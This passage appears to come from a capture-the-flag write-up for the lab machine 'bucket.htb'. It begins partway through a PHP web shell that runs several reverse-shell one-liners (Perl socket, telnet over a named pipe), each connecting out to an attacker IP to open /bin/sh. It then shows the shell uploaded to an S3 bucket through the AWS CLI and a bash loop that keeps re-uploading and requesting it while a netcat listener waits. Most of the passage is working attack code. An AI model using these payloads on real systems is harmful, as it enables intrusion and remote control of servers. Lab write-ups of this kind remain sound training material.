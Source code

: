 ```bash
    "/usr/bin/perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,\"".$ip.":".$port."\");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'",
    'rm -f /tmp/p; mknod /tmp/p p && telnet '.$ip.' '.$port.' 0/tmp/p',
    'perl -e \'use Socket;$i="'.$ip.'";$p='.$port.';socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\''
);
foreach ($reverse_shells as $reverse_shell) {
   try {echo system($reverse_shell);} catch (Exception $e) {echo $e;}
   try {shell_exec($reverse_shell);} catch (Exception $e) {echo $e;}
   try {exec($reverse_shell);} catch (Exception $e) {echo $e;}
}
system('id');
?>
```

We want to upload this file to the AWS server, so we use the CLI:
```bash
$ aws --endpoint-url http://s3.bucket.htb/ s3 cp shell.php s3://adserver/shell.php
upload: ./shell.php to s3://adserver/shell.php                   
                                                                                                                                          
$ aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/       
                           PRE images/
2021-03-06 22:31:02       5344 index.html
2021-03-06 22:31:37         39 rce.php
```

Cool!  It has accepted our file!

I go onto http://bucket.htb/shell.php, but it has a 404 error.  This is strange... I list what is on `adserver` again, and it is gone!  It looks like the system cleans itself.  We will need to gain shell access fast then, it seems.  It looks to be cleaning itself ever minute or so.  We can write a `bash` script to automate uploading and accessing this file:
```bash
#! /bin/bash
#
# Usage: In seperate terminal run `nc -nlvp 1234` and then run `chmod u+x rce.sh && ./rce.sh`.
#
# Press Ctrl+C when `nc` listener has found something.

RCE_FILE_NAME="rce.php"

echo "Uploading RCE file to bucket..."

aws --endpoint-url http://s3.bucket.htb/ s3 cp "$RCE_FILE_NAME" s3://adserver/

echo
echo "File uploaded."
echo "Executing reverse shell...  Ensure a netcap listener is running"
echo "Kill this script with Ctrl+C upon a successful connection"

while [ true ]
do
	if [[ ! -z "$(aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/ | grep "$RCE_FILE_NAME")" ]]
	then
		curl http://bucket.htb/"$RCE_FILE_NAME" &> /dev/null
	else
		echo "RCE file has been cleaned from the bucket.  Stopping..."
	fi
done
```
